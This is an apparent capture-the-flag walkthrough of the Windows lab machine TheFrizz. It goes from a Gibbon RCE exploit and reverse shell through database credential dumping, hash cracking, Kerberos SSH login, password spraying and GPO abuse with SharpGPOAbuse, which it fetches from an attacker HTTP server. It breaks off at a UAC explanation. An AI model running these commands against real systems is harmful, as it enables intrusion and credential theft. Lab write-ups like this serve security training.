

* TOC
{:toc}


# Intro

This is a WINDOWS machine of easy difficulty, named TheFrizz, lets begin 


Tags: #windows #RCE #AD #GSSAPIauthentication #gpo #OSCPpath #NotAssumedBreach 
Tools used:
john (password cracking)
bloodhound-python (AD enumeration)
Invoke-WebRequest (file upload)
scp (file upload)
kinit (ticket generation)
impacket-getTGT (ticket generation)
kerbrute (password spraying)
GetADUsers.py (AD users enumeration)
SharpGPOAbuse (gpo abuse)
RunasCs (elevate tokens as local admin)

---------
# Reconnaisanse

add machine to etc/hosts
```shell
echo '10.10.11.60 frizz.htb' | sudo tee -a /etc/hosts
```

lets start with our nmap scan
```shell
nmap frizz.htb -sV -Pn -T4
```
output:
```shell
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 13:20 EDT
Nmap scan report for frizz.htb (10.10.11.60)
Host is up (0.16s latency).
rDNS record for 10.10.11.60: frizzdc.frizz.htb
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh?
53/tcp   open  domain        (generic dns response: SERVFAIL)
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-19 00:20:39Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.95%I=7%D=5/18%Time=682A16F3%P=x86_64-pc-linux-gnu%r(DNS-
SF:SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04
SF:_udp\x05local\0\0\x0c\0\x01");
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 211.91 seconds
```

we can see from our nmap scan, this line:
```shell
rDNS record for 10.10.11.60: frizzdc.frizz.htb
```
so lets add frizzdc.frizz.htb on etc/hosts too and continue
```shell
echo '10.10.11.60 frizzdc.frizz.htb' | sudo tee -a /etc/hosts
```
our /etc/hosts file now looks like this
```shell
10.10.11.60 frizzdc.frizz.htb frizz.htb
```

First things first, lets to navigate to the web app, we stumble accross this page which appears to be the home page:

by scrolling downwards, we can see nothing valuable, so lets try searching the rest of the pages

The "pricing" page similary contains nothing important

Then by inspecting the staff login (blue button on top right) we come accross this page right here:

whats interesting here, is that it is indeed a login page, but it actually shows the version of the service!


Powered by Gibbon v25.0.00

So it appears to be a Gibbon Service (which is an open source school management platform).
This specific version of it (v25.0.0.), appears to be vulnerable to multiple CVEs , but specifically 
```CVE-2023-45878``` stands out as it allows RCE .
# Foothold

So if found this exploit: 
https://github.com/0xyy66/CVE-2023-45878_to_RCE/blob/main/CVE-2023-45878.sh

lets run it:
```shell
./CVE-2023-45878.sh 10.10.14.158 9999 10.10.11.60:80
```

and we successfully got rev shell as ```w.webservice```
```shell
└─# nc -lvnp 9999                      
listening on [any] 9999 ...
connect to [10.10.14.158] from (UNKNOWN) [10.10.11.60] 63899
Microsoft Windows [Version 10.0.20348.3207]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\Gibbon-LMS>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D129-C3DA

 Directory of C:\xampp\htdocs\Gibbon-LMS

05/18/2025  05:54 PM    <DIR>          .
10/29/2024  07:28 AM    <DIR>          ..
01/20/2023  07:04 AM               634 .htaccess
05/18/2025  05:54 PM             7,168 7zip.exe
01/20/2023  07:04 AM           197,078 CHANGEDB.php
01/20/2023  07:04 AM           103,023 CHANGELOG.txt
01/20/2023  07:04 AM             2,972 composer.json
01/20/2023  07:04 AM           294,353 composer.lock
10/11/2024  08:15 PM             1,307 config.php
01/20/2023  07:04 AM             3,733 error.php
01/20/2023  07:04 AM             1,608 export.php
01/20/2023  07:04 AM            32,988 favicon.ico
01/20/2023  07:04 AM             2,277 fullscreen.php
01/20/2023  07:04 AM            57,535 functions.php
01/20/2023  07:04 AM             5,610 gibbon.php
10/29/2024  07:27 AM           493,211 gibbon.sql
01/20/2023  07:04 AM         1,254,473 gibbon_demo.sql
05/18/2025  05:54 PM                33 gibbon_myconfig.php
01/20/2023  07:04 AM    <DIR>          i18n
01/20/2023  07:04 AM            31,228 index.php
01/20/2023  07:04 AM             2,356 indexExport.php
01/20/2023  07:04 AM               813 indexFindRedirect.php
01/20/2023  07:04 AM            12,327 index_fastFinder_ajax.php
01/20/2023  07:04 AM             2,579 index_notification_ajax.php
01/20/2023  07:04 AM             2,767 index_notification_ajax_alarm.php
01/20/2023  07:04 AM             1,690 index_notification_ajax_alarmConfirmProcess.php
01/20/2023  07:04 AM             1,647 index_notification_ajax_alarmProcess.php
01/20/2023  07:04 AM             1,245 index_notification_ajax_alarm_tickUpdate.php
01/20/2023  07:04 AM             2,142 index_parentPhotoDeleteProcess.php
01/20/2023  07:04 AM             3,549 index_parentPhotoUploadProcess.php
01/20/2023  07:04 AM             2,046 index_tt_ajax.php
01/20/2023  07:04 AM    <DIR>          installer
01/20/2023  07:04 AM               753 keepAlive.php
01/20/2023  07:04 AM    <DIR>          lib
01/20/2023  07:04 AM            35,113 LICENSE
01/20/2023  07:04 AM             7,589 login.php
01/20/2023  07:04 AM             1,263 logout.php
01/20/2023  07:04 AM    <DIR>          modules
01/20/2023  07:04 AM             3,905 notifications.php
01/20/2023  07:04 AM             2,110 notificationsActionProcess.php
01/20/2023  07:04 AM             1,163 notificationsDeleteAllProcess.php
01/20/2023  07:04 AM             2,275 notificationsDeleteProcess.php
01/20/2023  07:04 AM             5,007 passwordReset.php
01/20/2023  07:04 AM             9,819 passwordResetProcess.php
01/20/2023  07:04 AM             9,146 preferences.php
01/20/2023  07:04 AM             5,165 preferencesPasswordProcess.php
01/20/2023  07:04 AM             4,367 preferencesProcess.php
01/20/2023  07:04 AM               923 privacyPolicy.php
01/20/2023  07:04 AM             7,184 publicRegistration.php
01/20/2023  07:04 AM             1,355 publicRegistrationCheck.php
01/20/2023  07:04 AM             7,825 publicRegistrationProcess.php
01/20/2023  07:04 AM             2,884 README.md
01/20/2023  07:04 AM             3,521 report.php
01/20/2023  07:04 AM    <DIR>          resources
01/20/2023  07:04 AM                54 robots.txt
01/20/2023  07:04 AM             1,883 roleSwitcherProcess.php
01/20/2023  07:04 AM    <DIR>          src
01/20/2023  07:04 AM    <DIR>          themes
01/20/2023  07:04 AM             2,641 update.php
10/29/2024  07:28 AM    <DIR>          uploads
01/20/2023  07:04 AM    <DIR>          vendor
01/20/2023  07:04 AM             1,288 version.php
01/20/2023  07:04 AM             4,359 yearSwitcherProcess.php
              52 File(s)      2,643,984 bytes
              11 Dir(s)   2,041,827,328 bytes free

C:\xampp\htdocs\Gibbon-LMS>
```

So after a brief inspection to most of the files, i found that config.php contains credentials!
```shell
C:\xampp\htdocs\Gibbon-LMS>type config.php
type config.php
<?php
/*
Gibbon, Flexible & Open School System
Copyright (C) 2010, Ross Parker

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>.
*/

/**
 * Sets the database connection information.
 * You can supply an optional $databasePort if your server requires one.
 */
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';

/**
 * Sets a globally unique id, to allow multiple installs on a single server.
 */
$guid = '7y59n5xz-uym-ei9p-7mmq-83vifmtyey2';

/**
 * Sets system-wide caching factor, used to balance performance and freshness.
 * Value represents number of page loads between cache refresh.
 * Must be positive integer. 1 means no caching.
 */
$caching = 10;
```

great! now we have those creds, but what to do with them?
```shell
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```
according to the variables assigned to them, it appears to refer to some database.

But first, we must find a way  to locate the database

By navigating through the directories, we see that there is a directory called mysql, which obviously is used for the database, lets continue.
```shell
C:\xampp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D129-C3DA

 Directory of C:\xampp

10/29/2024  07:28 AM    <DIR>          .
10/29/2024  07:25 AM    <DIR>          apache
10/29/2024  07:26 AM    <DIR>          cgi-bin
10/29/2024  07:25 AM    <DIR>          contrib
10/29/2024  07:28 AM    <DIR>          htdocs
10/29/2024  07:25 AM    <DIR>          licenses
10/29/2024  07:25 AM    <DIR>          mysql
10/29/2024  07:26 AM    <DIR>          php
10/29/2024  07:25 AM    <DIR>          src
05/18/2025  05:50 PM    <DIR>          tmp
               0 File(s)              0 bytes
              10 Dir(s)   2,095,861,760 bytes free

C:\xampp>
```

getting in the mysql dir, we see this
```shell
C:\xampp\mysql>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D129-C3DA

 Directory of C:\xampp\mysql

10/29/2024  07:25 AM    <DIR>          .
10/29/2024  07:28 AM    <DIR>          ..
10/29/2024  07:25 AM    <DIR>          backup
10/29/2024  07:26 AM    <DIR>          bin
10/30/2023  05:36 AM            17,987 COPYING
10/30/2023  05:36 AM             2,104 CREDITS
05/18/2025  05:50 PM    <DIR>          data
10/29/2024  07:27 AM               843 mysql_installservice.bat
03/30/2013  05:29 AM               395 mysql_uninstallservice.bat
10/30/2023  05:36 AM             2,874 README.md
06/03/2019  04:39 AM             1,095 resetroot.bat
10/29/2024  07:25 AM    <DIR>          scripts
10/29/2024  07:25 AM    <DIR>          share
10/30/2023  05:36 AM            86,263 THIRDPARTY
               7 File(s)        111,561 bytes
               7 Dir(s)   2,095,861,760 bytes free

C:\xampp\mysql>
```

we should be able to find somehwere the executable of mysql, in order to login.

I found this to be located inside the bin directory:


Now that we have the executable, we are ready to connect to the database:

Lets run the command below, to connect and show all available databases:
```shell
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;"
```
the command returns this output, there are 4 databases
```shell
Database
gibbon
information_schema
test
```

From those 4 databases, we know that we only have access to gibbon, because the creds we found appear to be related to this database ($databasename).
```shell
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

Lets view the tables of database gibbon:
```shell
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "SHOW TABLES;" gibbon
```
output:
```shell
gibbonaction
gibbonactivity
gibbonactivityattendance
gibbonactivityslot
gibbonactivitystaff
gibbonactivitystudent
gibbonactivitytype
gibbonadmissionsaccount
gibbonadmissionsapplication
gibbonalarm
gibbonalarmconfirm
gibbonalertlevel
gibbonapplicationform
gibbonapplicationformfile
gibbonapplicationformlink
gibbonapplicationformrelationship
gibbonattendancecode
gibbonattendancelogcourseclass
gibbonattendancelogformgroup
gibbonattendancelogperson
gibbonbehaviour
gibbonbehaviourletter
gibboncountry
gibboncourse
gibboncourseclass
gibboncourseclassmap
gibboncourseclassperson
gibboncrowdassessdiscuss
gibboncustomfield
gibbondataretention
gibbondaysofweek
gibbondepartment
gibbondepartmentresource
gibbondepartmentstaff
gibbondiscussion
gibbondistrict
gibbonemailtemplate
gibbonexternalassessment
gibbonexternalassessmentfield
gibbonexternalassessmentstudent
gibbonexternalassessmentstudententry
gibbonfamily
gibbonfamilyadult
gibbonfamilychild
gibbonfamilyrelationship
gibbonfamilyupdate
gibbonfileextension
gibbonfinancebillingschedule
gibbonfinancebudget
gibbonfinancebudgetcycle
gibbonfinancebudgetcycleallocation
gibbonfinancebudgetperson
gibbonfinanceexpense
gibbonfinanceexpenseapprover
gibbonfinanceexpenselog
gibbonfinancefee
gibbonfinancefeecategory
gibbonfinanceinvoice
gibbonfinanceinvoicee
gibbonfinanceinvoiceeupdate
gibbonfinanceinvoicefee
gibbonfirstaid
gibbonfirstaidfollowup
gibbonform
gibbonformfield
gibbonformgroup
gibbonformpage
gibbonformsubmission
gibbonformupload
gibbongroup
gibbongroupperson
gibbonhook
gibbonhouse
gibboni18n
gibbonin
gibboninarchive
gibboninassistant
gibbonindescriptor
gibbonininvestigation
gibbonininvestigationcontribution
gibboninpersondescriptor
gibboninternalassessmentcolumn
gibboninternalassessmententry
gibbonlanguage
gibbonlibraryitem
gibbonlibraryitemevent
gibbonlibrarytype
gibbonlog
gibbonmarkbookcolumn
gibbonmarkbookentry
gibbonmarkbooktarget
gibbonmarkbookweight
gibbonmedicalcondition
gibbonmessenger
gibbonmessengercannedresponse
gibbonmessengerreceipt
gibbonmessengertarget
gibbonmigration
gibbonmodule
gibbonnotification
gibbonnotificationevent
gibbonnotificationlistener
gibbonoutcome
gibbonpayment
gibbonpermission
gibbonperson
gibbonpersonaldocument
gibbonpersonaldocumenttype
gibbonpersonmedical
gibbonpersonmedicalcondition
gibbonpersonmedicalconditionupdate
gibbonpersonmedicalupdate
gibbonpersonreset
gibbonpersonstatuslog
gibbonpersonupdate
gibbonplannerentry
gibbonplannerentrydiscuss
gibbonplannerentryguest
gibbonplannerentryhomework
gibbonplannerentryoutcome
gibbonplannerentrystudenthomework
gibbonplannerentrystudenttracker
gibbonplannerparentweeklyemailsummary
gibbonreport
gibbonreportarchive
gibbonreportarchiveentry
gibbonreportingaccess
gibbonreportingcriteria
gibbonreportingcriteriatype
gibbonreportingcycle
gibbonreportingprogress
gibbonreportingproof
gibbonreportingscope
gibbonreportingvalue
gibbonreportprototypesection
gibbonreporttemplate
gibbonreporttemplatefont
gibbonreporttemplatesection
gibbonresource
gibbonresourcetag
gibbonrole
gibbonrubric
gibbonrubriccell
gibbonrubriccolumn
gibbonrubricentry
gibbonrubricrow
gibbonscale
gibbonscalegrade
gibbonschoolyear
gibbonschoolyearspecialday
gibbonschoolyearterm
gibbonsession
gibbonsetting
gibbonspace
gibbonspaceperson
gibbonstaff
gibbonstaffabsence
gibbonstaffabsencedate
gibbonstaffabsencetype
gibbonstaffapplicationform
gibbonstaffapplicationformfile
gibbonstaffcontract
gibbonstaffcoverage
gibbonstaffcoveragedate
gibbonstaffduty
gibbonstaffdutyperson
gibbonstaffjobopening
gibbonstaffupdate
gibbonstring
gibbonstudentenrolment
gibbonstudentnote
gibbonstudentnotecategory
gibbonsubstitute
gibbontheme
gibbontt
gibbonttcolumn
gibbonttcolumnrow
gibbonttday
gibbonttdaydate
gibbonttdayrowclass
gibbonttdayrowclassexception
gibbonttimport
gibbonttspacebooking
gibbonttspacechange
gibbonunit
gibbonunitblock
gibbonunitclass
gibbonunitclassblock
gibbonunitoutcome
gibbonusernameformat
gibbonyeargroup
```

There are too much tables, so i tried viewing the contents of the names of the ones if found more "interesting", like gibbonperson, which would be more likely to contain more personal information.
```shell
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
```

and it seems it contains some more creds!
```shell
C:\xampp\mysql\bin>.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "SHOW TABLES;" Database
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "SHOW TABLES;" Database
ERROR 1044 (42000): Access denied for user 'MrGibbonsDB'@'localhost' to database 'database'

C:\xampp\mysql\bin>.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonperson;" -E
*************************** 1. row ***************************
           gibbonPersonID: 0000000001
                    title: Ms.
                  surname: Frizzle
                firstName: Fiona
            preferredName: Fiona
             officialName: Fiona Frizzle
         nameInCharacters: 
                   gender: Unspecified
                 username: f.frizzle
           passwordStrong: 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
       passwordStrongSalt: /aACFhikmNopqrRTVz2489
       passwordForceReset: N
                   status: Full
                 canLogin: Y
      gibbonRoleIDPrimary: 001
          gibbonRoleIDAll: 001
                      dob: NULL
                    email: f.frizzle@frizz.htb
           emailAlternate: NULL
                image_240: NULL
            lastIPAddress: ::1
            lastTimestamp: 2024-10-29 09:28:59
        lastFailIPAddress: NULL
```
here the valuable info is, that we found another user f.frizzle, and a hash associated with that user:
```shell
username: f.frizzle
passwordStrong: 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
passwordStrongSalt: /aACFhikmNopqrRTVz2489
```

The password appears to be a hash, and by using hash-identifier tool it appears to be SHA-256


in our case, we have
```shell
sha256($s.$p)  ← SHA-256 of salt + password
```
i tried dynamic_61 but failed, and dynamic_82 worked so i used that

first lets create our file in this format:
```shell
f.frizzle:$dynamic_82$067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03$/aACFhikmNopqrRTVz2489
```
then use john the ripper to crack this:
```shell
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```
be carefull to the hash format! (--format=dynamic='sha256($s.$p)')

after cracking, i found this password

so our updated creds are
```shell
f.frizzle
Jenni_Luvs_Magic23
```

now we are one step closer to logging in , lets try logging in with win-rm
```shell
evil-winrm -i frizzdc.frizz.htb -u f.frizzle -p 'Jenni_Luvs_Magic23'
```

BUT WAIT, it seems we cant login via winrm, and seems logical since win-rm port (5985) isnt open!
what should we do now? here comes the trickiest part...

##### Logging in as f.frizzle

we can login to f.frizzle through ssh via **GSSAPI** authentication if we get f.frizzle's ticket

#### What is GSSAPI authentication?

**GSSAPI authentication** lets you log in without entering a password — **securely and automatically** — if your system and the server both trust the same Kerberos domain.
It’s basically how **Single Sign-On (SSO)** works in Linux/Unix and some Windows-integrated environments.
######  How It Works
1. ✅ You log in to your local machine and get a **Kerberos ticket** (TGT).
2. 📡 You connect via `ssh` to a remote server using `GSSAPIAuthentication`.
3. 🔑 Instead of asking for a password, the SSH client sends your **Kerberos ticket** to the server.
4. 🛡️ If the server trusts the same Kerberos domain, it accepts the ticket and logs you in — no password needed.

But first, we need to modify ```/etc/krb5.conf``` (**Kerberos** configuration file) 
Now the Kerberos client can use this configuration to communicate with the **Kerberos authentication server.**

update local machine's krb5.conf file as shown:
```shell
[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB
 
[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true
 
[realms]
    FRIZZ.HTB = {
        kdc = FRIZZDC.FRIZZ.HTB
        admin_server = FRIZZDC.FRIZZ.HTB
        default_domain = FRIZZ.HTB
    }
```

First adjust/sync your time to the domain
```shell
ntpdate frizzdc.frizz.htb
```
then obtain f.frizzle's ticket using kinit (we could use impacket-getTGT, nothing changes, there are just multiple ways to do it)
```
kinit f.frizzle@FRIZZ.HTB
```
(it will ask for the password and then if nothing is shown it means it run successfully)
then login via ssh and use ```-K``` for the **GSSAPI** authentication
```shell
ssh f.frizzle@frizz.htb -K
```

we are in

and grabbed the user flag!
```shell
b9f41dc9053d1ba4cc6604fc762a9cb7
```

# Privesc

#### AD enumeration

```shell
bloodhound-python -u 'f.frizzle' -p 'Jenni_Luvs_Magic23' -d frizz.htb -dc frizzdc.frizz.htb -ns 10.10.11.60  -c all  --zip
```

then upload the zip on bloodhound and inspect, start with our current user (f.frizzle)


It seems that f.frizzle does not have any special permissions, lets now view other users in the domain.

There are too much users here.. from the gui we see that 2 users have a "diamond" sign.
The diamond sign indicates that these users are part of the tier 0, which is the highest possible tier on an AD environment.

The first one is administrators, which we dont have access (obviously).

The second one is v.frizzle, but we have no permissions towards this user, also verified by v.frizzle's inbound object control graph. As we can see only administrator has permission over this user.


Also if we inspect Administrator's inbound object control graph we cant see any other users other than v.frizzle to have permission over Administrator:


After inspecting all of them, i concluded that M.SCHOOLBUS was the most interesting one:


After inspection via bloodhound's graph it appears that a user called M.SCHOOLBUS is member of
- DOMAIN USERS (non valuable info)
- DESKTOP ADMINS -> GROUP POLICY CREATOR OWNERS (valuable info)
- REMOTE MANAGEMENT USERS (non valuable info)

Both administrator and M.SCHOOLBUS (as a member of desktop admins group) have access to GROUP POLICY CREATOR OWNERS group.
SO we found a user, that has the same permissions with Administrator over a high privilege group, thus skipping the requirement to become Administrator to use it.


Okay, but HOW to go from f.frizzle (our current user) towards M.SCHOOLBUS ?? since f.frizzle has NO CONTROL over M.SCHOOLBUS? somehow we have to gain access to this user.

Here comes the part that took me forever to find, since user's permissions did not help, we could check the recycle bin for anything usefull, unfortunately navigating to the recycle bin directly is not possible via ```cd```, instead we can use powershell to list its contents, by running the commands below one by one on the C:\Users\f.frizzle directory, according to this post:
https://jdhitsolutions.com/blog/powershell/7024/managing-the-recycle-bin-with-powershell/
```powershell
PS C:\Users\f.frizzle> $shell = New-Object -com shell.application 
PS C:\Users\f.frizzle> $rb = $shell.namespace(10) 
PS C:\Users\f.frizzle> $rb.Items()
```
output:
```shell
Application  : System.__ComObject
Parent       : System.__ComObject
Name         : wapt-backup-sunday.7z
Path         : C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103\$RE2XMEG.7z
GetLink      :
GetFolder    :
IsLink       : False
IsFolder     : False
IsFileSystem : True
IsBrowsable  : False
ModifyDate   : 10/24/2024 9:16:29 PM
Size         : 30416987
Type         : 7Z File
```

As we can see, there is an item ```wapt-backup-sunday.7z``` , but somehow we have to transfer it to our machine, so lets copy this file to the f.frizzle's home dir:
```shell
PS C:\Users\f.frizzle> $path = $item | Select-Object -ExpandProperty Path
PS C:\Users\f.frizzle> Copy-Item -Path $path -Destination wapt-backup-sunday.7z
```

then in order to transfer it locally to our machine, we can use ```scp```
```shell
scp f.frizzle@frizz.htb:wapt-backup-sunday.7z .
```

Locally, by extracting the compressed file ```wapt-backup-sunday.7z``` i came accross multiple files.
The file that contained sth related to credentials was ```waptserver.ini``` and it contained a base64 string
```shell
wapt_password = IXN1QmNpz0BNZWhUZWQhUgo=
```
decoding the base64 gives us this, which appears to be the pass we were looking for
```shell
echo 'IXN1QmNpz0BNZWhUZWQhUgo=' | base64 -d

!suBci@MehTed!R
```

okay, we found a password, but for what user? 
we do not have that information, only one way to find out, and thats via password spraying
#### Password spraying

First, lets **gather all the users**, in order to create our sprayable list, personally i prefer GetADUsers.py for this: https://github.com/fortra/impacket/blob/master/examples/GetADUsers.py
```shell
GetADUsers.py -k -no-pass frizz.htb/ -dc-host frizzdc.frizz.htb -all | awk '{print $1}' | tail -n +6 > users.txt
```
(this part ```| awk '{print $1}' | tail -n +6``` skips unnecessary output like headers or status messages from impacket)

This will put the usernames on a txt file (but without the @domain, only usernames, because thats what kerbrute requires in the user list).

Then **spray** the users we found for this password:
```shell
kerbrute passwordspray --dc frizzdc.frizz.htb -d frizz.htb users.txt '!suBci@MehTed!R'
```
it appears that this pass is associated with user M.SchoolBus
```
[+] VALID LOGIN: M.SchoolBus@frizz.htb:!suBci@MehTed!R
```

so the creds for M.schoolbus user are:
```shell
M.schoolbus
!suBcig@MehTed!R
```

##### Logging in as M.schoolbus

Great! we now have the creds for the M.schoolbus user, we will use the same steps we did for f.frizzle to login as M.schoolbus user, so generating ticket, and then login with ssh via GSSAPI authentication

First adjust/sync your time to the domain
```shell
ntpdate frizzdc.frizz.htb
```
Generate ticket for M.schoolbus user (instead of kinit we did for f.frizzle, nothing changes, there are just multiple ways to do it)
```shell
impacket-getTGT frizz.htb/'M.schoolbus':'!suBcig@MehTed!R' -dc-ip frizzdc.frizz.htb
```
Then login using the ```-K``` parameter, which enables GSSAPI authentication and forwarding of credentials.
```shell
ssh M.schoolbus@frizz.htb -K
```
and we are in!
##### Enumeration

okay, we got in as M.schoolbus, what now? we can start enumerating by inspecting the groups that this user belongs to:
```shell
whoami /groups
```
output: (removed attributes and part of sid column to fit vertically here)
```text
Group Name                                   Type             SID
============================================ ================ ======================
Everyone                                     Well-known group S-1-1-0
BUILTIN\Remote Management Users              Alias            S-1-5-32-580
BUILTIN\Users                                Alias            S-1-5-32-545
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11
NT AUTHORITY\This Organization               Well-known group S-1-5-15
frizz\Desktop Admins                         Group            S-1-5-21-2386970044-
frizz\Group Policy Creator Owners            Group            S-1-5-21-2386970044-
Authentication authority asserted identity   Well-known group S-1-18-1
frizz\Denied RODC Password Replication Group Alias            S-1-5-21-2386970044-
Mandatory Label\Medium Mandatory Level       Label            S-1-16-8192
```
interesting, the user appears to belong to the `Group Policy Creator Owners` group.
This group can create GPOs and modify them.

#### Abusing GPO

First create a new Group Policy Object (GPO) named "ch3ckm8", 
it does **not** link the GPO anywhere yet tho, this gpo it's just created inside the Group Policy store of the domain.
```shell
New-GPO -Name "ch3ckm8"
```

Links the existing GPO named `"ch3ckm8"` to the **Organizational Unit (OU)** `Domain Controllers` in the domain `frizz.htb`.
```shell
New-GPLink -Name "ch3ckm8" -Target "OU=Domain Controllers,DC=frizz,DC=htb"
```
- `OU=Domain Controllers,DC=frizz,DC=htb` specifies the Distinguished Name (DN) of the **OU containing the domain controllers**.
- This means the policy will apply to **all domain controller machines** in the `frizz.htb` domain.

Transfer SharpGPOAbuse.exe on the machine on dir "C:\Users\M.SchoolBus"
https://github.com/byronkg/SharpGPOAbuse/blob/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```shell
python3 -m http.server 8080
```
transfer the binary from our local machine to the target:
```shell
Invoke-WebRequest -Uri http://10.10.14.248:8080/SharpGPOAbuse.exe -OutFile SharpGPOAbuse.exe
```
run it
```shell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName ch3ckm8
```
- AddLocalAdmin                   -> Tells the tool to add a local admin user
- UserAccount M.SchoolBus  -> The domain user to add as a local administrator
- GPOName ch3ckm8	   -> The target GPO to modify

Refresh group policies, thus applying any changes
```shell
gpupdate /force
```

To sumup, SharpGPOAbuse here **modifies the GPO `ch3ckm8`** to:
- Add the domain user `M.SchoolBus` to the **local Administrators group** on every machine where that GPO is linked (in your case, likely **domain controllers**, since it was linked to `OU=Domain Controllers`).
Once the GPO applies (e.g., via `gpupdate /force` or next reboot), `M.SchoolBus` will have **local admin rights on domain controllers**, which can lead to **full domain compromise**.

#### Moving forward, with M.SchoolBus being now local admin

Now we should be in the administrator group, lets verify it:
```shell
net localgroup Administrators
```
output:
```shell      
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
M.SchoolBus
The command completed successfully.
```

we can see we are on the administrators group, BUT for some reason we cant read root.txt !

why tho?

Even if we’re in the **Administrators group**, our session **does not immediately gain elevated access**.
This is due to:
- **User Account Control (UAC)** in Windows
